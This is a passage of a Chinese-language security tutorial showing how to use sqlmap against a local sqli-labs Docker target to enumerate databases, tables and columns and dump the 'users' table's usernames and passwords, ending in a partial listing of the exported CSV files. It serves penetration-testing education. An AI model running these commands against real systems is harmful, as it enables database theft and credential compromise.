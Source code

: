 <h3 data-nodeid="53499">自动化利用漏洞</h3>
<p data-nodeid="53500">手工注入是个体力活，效率很慢，如果能自动化地利用漏洞，就可以解放双手，省下不少时间。因此，通常我们不会使用手工注入的方式。</p>
<p data-nodeid="53501">下面我就来介绍如何利用 sqlmap 实现 SQL 注入漏洞的自动化利用。</p>
<h4 data-nodeid="53502">使用 sqlmap 拖库</h4>
<p data-nodeid="53503">当前在 SQL 注入漏洞利用工具中，sqlmap 绝对是最常用的，前文也多次提到它，这里我们就尝试使用 sqlmap 实现拖库。</p>
<p data-nodeid="53504">借助 sqlmap 我们可以通过简单的参数自动完成漏洞的利用，既不用记过多的 SQL 语句，也会更加高效。下面我会介绍一些常用的命令参数，通过这些参数，我们能实现注入自动化。具体的流程和手工注入一样，这里就不再赘述了。</p>
<p data-nodeid="53505"><strong data-nodeid="53763">（1）使用 --dbs 参数获取数据库名称</strong>（注意：这里需要 sudo，否则无法访问 docker 容器中的网站），示例命令如下：</p>
<pre class="lang-shell" data-nodeid="53506"><code data-language="shell">./sqlmap.py -u "http://localhost/Less-2/?id=1" --dbs
</code></pre>
<p data-nodeid="53507"><img src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zKAPDYwAAHpwAOclsQ168.png" alt="Drawing 11.png" data-nodeid="53766"></p>
<div data-nodeid="53508"><p style="text-align:center">图 12：使用 --dbs 参数获取数据库名称</p></div>
<p data-nodeid="53509">输出的对应 payload 也是学习各种注入技巧的参考资料，对于渗透测试者、漏洞扫描器、WAF 开发者需要研究的重要资源，有些扫描器干脆直接用 sqlmap，或者把它的所有 payload 扣出来使用。</p>
<p data-nodeid="53510"><strong data-nodeid="53772">（2）使用 --current-db 参数获取当前数据库</strong>，示例命令如下：</p>
<pre class="lang-shell" data-nodeid="53511"><code data-language="shell">./sqlmap.py -u "http://localhost/Less-2/?id=1" --current-db
</code></pre>
<p data-nodeid="53512"><img src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y7zqAXr4gAABQGh6pVVo584.png" alt="Drawing 12.png" data-nodeid="53775"></p>
<div data-nodeid="53513"><p style="text-align:center">图 13：使用 --current-db 参数获取当前数据库</p></div>
<p data-nodeid="53514"><strong data-nodeid="53780">（3）使用 --tables 参数枚举表名</strong>，示例命令如下 ：</p>
<pre class="lang-shell" data-nodeid="53515"><code data-language="shell">./sqlmap.py -u "http://localhost/Less-2/?id=1" --tables -D 'security'
</code></pre>
<p data-nodeid="53516"><img src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y70GAQ0C0AACYCKSvjig335.png" alt="Drawing 13.png" data-nodeid="53783"></p>
<div data-nodeid="53517"><p style="text-align:center">图 14：使用 --tables 参数枚举表名</p></div>
<p data-nodeid="53518"><strong data-nodeid="53788">（4）使用 --columns 参数枚举字段名</strong>，示例命令如下：</p>
<pre class="lang-shell" data-nodeid="53519"><code data-language="shell">./sqlmap.py -u "http://localhost/Less-2/?id=1" --columns -T "users" -D "security"
</code></pre>
<p data-nodeid="53520"><img src="https://s0.lgstatic.com/i/image2/M01/04/8B/Cip5yF_y70mAVarDAAB9o-Ikd5A077.png" alt="Drawing 14.png" data-nodeid="53791"></p>
<div data-nodeid="53521"><p style="text-align:center">图 15：使用 --columns 参数枚举字段名</p></div>
<p data-nodeid="53522"><strong data-nodeid="53796">（5）使用 --dump 参数批量获取字段值</strong>，示例命令如下：</p>
<pre class="lang-shell" data-nodeid="53523"><code data-language="shell">./sqlmap.py -u "http://localhost/Less-2/?id=1" --dump -C "id,password,username" -T "users" -D "security"
</code></pre>
<p data-nodeid="53524"><img src="https://s0.lgstatic.com/i/image2/M01/04/8C/CgpVE1_y71GANTBrAAFu3OCaUR4397.png" alt="Drawing 15.png" data-nodeid="53799"></p>
<div data-nodeid="53525"><p style="text-align:center">图 16：使用 --dump 参数批量获取字段值</p></div>
<p data-nodeid="53526"><strong data-nodeid="53804">（6）使用 --dump-all 参数导出整个数据库</strong>。</p>
<p data-nodeid="53527">这个方法耗时较长，还有很多无价值信息，但却是最简单的拖库姿势，示例命令如下：</p>
<pre class="lang-java" data-nodeid="53528"><code data-language="java">./sqlmap.py -u <span class="hljs-string">"http://localhost/Less-2/?id=1"</span> --dump-all
</code></pre>
<p data-nodeid="53529">上述方法导出的数据文件存放路径会在命令行给出，数据以 csv 文件形式保存到本地：</p>
<pre class="lang-shell" data-nodeid="53530"><code data-language="shell"><span class="hljs-meta">Ubuntu#</span><span class="bash"> <span class="hljs-built_in">pwd</span></span>
/root/.local/share/sqlmap/output/localhost/dump
<span class="hljs-meta">Ubuntu#</span><span class="bash"> tree</span>
.
├── challenges
│&nbsp; &nbsp;└── 6EAED22Z6T.csv
├── information_schema
│&nbsp; &nbsp;├── CHARACTER_SETS.csv
│&nbsp; &nbsp;├── COLLATION_CHARACTER_SET_APPLICABILITY.csv
│&nbsp; &nbsp;├── COLLATIONS.csv
│&nbsp; &nbsp;├── COLUMN_PRIVILEGES.csv
│&nbsp; &nbsp;├── COLUMNS.csv
│&nbsp; &nbsp;├── ......